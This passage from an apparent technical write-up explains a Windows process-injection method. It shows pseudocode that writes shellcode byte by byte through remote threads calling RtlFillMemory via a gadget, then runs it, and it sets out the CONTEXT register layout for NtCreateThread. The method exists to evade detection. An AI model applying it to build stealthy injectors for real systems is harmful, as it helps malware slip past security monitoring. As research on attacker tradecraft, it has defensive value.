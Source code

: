 #### Step 2: Write Shellcode (Byte-by-Byte)
```c
for (i = 0; i < shellcode_size; i++) {
    CreateRemoteThreadViaGadget(
        RCX = 0x60000 + i,      // Destination
        RDX = 1,                // Length (1 byte)
        R8  = shellcode[i],     // Fill byte
        R9  = 0,                // Unused
        Function = RtlFillMemory,
        ExitThread = ExitThread
    )
}
```

**What happens**:
- For each byte, create a thread calling RtlFillMemory
- RtlFillMemory(dest+i, 1, byte) fills one byte
- Repeat for all shellcode bytes

**Result**: Shellcode written without WriteProcessMemory!

#### Step 3: Execute Shellcode
```c
CreateRemoteThreadViaGadget(
    RCX = 0,                    // Unused
    RDX = 0,                    // Unused
    R8  = 0,                    // Unused
    R9  = 0,                    // Unused
    Function = 0x60000,         // Shellcode address
    ExitThread = ExitThread
)
```

**What happens**:
- gadget: push ExitThread; push 0x60000; ret
- ret jumps to shellcode at 0x60000
- Shellcode executes
- When done, returns to ExitThread

**Result**: Shellcode executed!

## Technical Deep Dive

### CONTEXT Structure Manipulation

The key to this technique is the `CONTEXT` structure passed to `NtCreateThread`:

```c
CONTEXT ctx;
ctx.Rip = gadget_address;        // Instruction pointer
ctx.Rsp = stack_base;            // Stack pointer
ctx.Rcx = arg1;                  // Function argument 1
ctx.Rdx = arg2;                  // Function argument 2
ctx.R8  = arg3;                  // Function argument 3
ctx.R9  = arg4;                  // Function argument 4
ctx.Rax = value_for_gadget_r1;   // First pushed register
ctx.Rbx = value_for_gadget_r2;   // Second pushed register
```
